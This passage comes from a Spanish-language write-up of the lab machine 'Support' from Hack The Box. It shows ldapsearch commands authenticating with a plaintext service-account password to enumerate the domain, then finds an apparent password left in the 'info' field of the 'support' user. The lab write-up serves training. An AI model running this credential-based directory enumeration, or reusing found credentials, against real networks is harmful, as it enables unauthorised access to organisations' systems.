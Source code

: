 Podemos intentar validar estas credenciales frente a otros protocolos como `smb` o `winrm` para intentar conectarnos con una consola, sin embargo, solamente serán válidas frente a `LDAP`


## LDAP Enumeration

Usaremos el protocolo LDAP para enumerar información del dominio, el siguiente comando nos mostrará toda la información del dominio 

~~~ bash
ldapsearch -x -b "DC=support,DC=htb" -H ldap://10.10.11.174 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 
~~~

Si buscamos por usuarios concretamente, encontraremos algo inusual en la información del usuario `support`

~~~ bash
ldapsearch -x -b "DC=support,DC=htb" -H ldap://10.10.11.174 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' | grep -i "samaccountname: support" -B 37

# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
company: support
streetAddress: Skipper Bowles Dr
name: support
objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132982099209777070
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: support
~~~ 
